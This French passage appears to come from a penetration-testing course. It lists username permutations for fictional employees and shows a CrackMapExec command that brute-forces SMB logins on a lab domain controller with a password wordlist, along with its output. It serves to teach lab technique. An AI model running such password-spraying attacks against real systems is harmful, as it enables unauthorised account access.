 ```
jimsteve
jimstev
jims
j.stevenson
jstevenson
sjim
s.jim
stevensonj
stevenson
stevenson.j
stevenson.jim
js
jill
jilljohnson
jill.johnson
jilljohn
jillj
j.johnson
jjohnson
jjill
j.jill
johnsonj
johnson
johnson.j
johnson.jill
jj
jane
janedoe
jane.doe
janed
j.doe
jdoe
djane
d.jane
doej
doe
doe.j
doe.jane
jd
```

L'utilisation d'outils automatisés peut nous faire gagner du temps lors de la création de listes. Néanmoins, nous gagnerons à passer autant de temps que possible à essayer de découvrir la convention de dénomination qu'une organisation utilise avec les noms d'utilisateur, car cela réduira la nécessité pour nous de deviner la convention de dénomination.

Il est idéal pour limiter autant que possible le besoin de deviner lors de la conduite d'attaques par mot de passe.

## Lancer l'attaque avec CrackMapExec
Une fois que nous avons préparé notre ou nos listes ou découvert la convention de dénomination et certains noms d'employés, nous pouvons lancer notre attaque contre le contrôleur de domaine cible à l'aide d'un outil tel que CrackMapExec. Nous pouvons l'utiliser conjointement avec le protocole SMB pour envoyer des demandes de connexion au contrôleur de domaine cible. Voici la commande pour le faire :
```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
```